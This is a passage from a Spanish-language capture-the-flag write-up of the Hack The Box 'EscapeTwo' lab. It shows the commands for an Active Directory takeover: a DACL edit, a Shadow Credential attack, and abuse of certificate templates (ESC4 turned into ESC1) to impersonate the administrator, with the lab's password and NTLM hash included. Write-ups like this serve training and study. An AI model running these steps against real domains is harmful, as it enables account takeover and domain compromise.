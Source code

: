 Ahora que somos propietarios de su usuario podemos ponerle Full Control a ca\_svc:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```

<figure><img src="htb/img/EscapeTwo/EscapeTwo11.png" alt=""><figcaption></figcaption></figure>

Ahora que el usuario tiene control total, podemos realizar un Shadow Credential Attack para insertar un certificado malicioso y obtener un TGT de Kerberos, que se guarda en un archivo `.ccache`.

Este archivo puede pasarse a Certipy para autenticarte como la cuenta víctima y buscar vulnerabilidades en las distintas plantillas de certificados del Active Directory con el siguiente comando:

```
KRB5CCNAME=$PWD/ca_svc.ccache certipy find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout
```

<figure><img src="htb/img/EscapeTwo/EscapeTwo12.png" alt=""><figcaption></figcaption></figure>

Como podemos ver aparece la vulnerabilidad `ESC4` en la plantilla `DunderMifflinAuthentication`&#x20;

El ESC4 consiste en que el usuario tiene privilegios sobre la plantilla y gracias a eso podemos convertir ese ESC4 en ESC1 de la siguiente manera:\\

```bash
KRB5CCNAME=$PWD/ca_svc.ccache certipy template -k -template DunderMifflinAuthentication -target dc01.sequel.htb
```

Ahora la plantilla es vulnerable a ESC1. Esta vulnerabilidad nos permite impersonar a otros usuarios y obtener un certificado como si fuéramos ellos.

En resumen, podemos pedir un certificado especificando manualmente un campo como el correo electrónico (`Subject` o `SAN`) y, si la plantilla está mal configurada, el servidor de certificados no valida si realmente somos ese usuario.

Por ejemplo, si cambiamos temporalmente el correo de nuestra cuenta a `Administrator@sequel.htb` y solicitamos un certificado, la CA nos lo emite creyendo que somos el administrador, simplemente porque se fía del valor que hemos enviado.\\

```bash
certipy req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -target sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -ca sequel-DC01-CA -dc-ip 10.10.11.51
```

> el hash lo sacamos de cuando hicimos el Shadow Credential Attack.

Una vez hacemos eso tendremos el .pfx del administrador. Un .pfx es un archivo que contiene un certificado digital y su clave privada. Este pfx se lo podemos pasar el certipy y hacer que nos devuelva el hash NTLM de la siguiente manera:
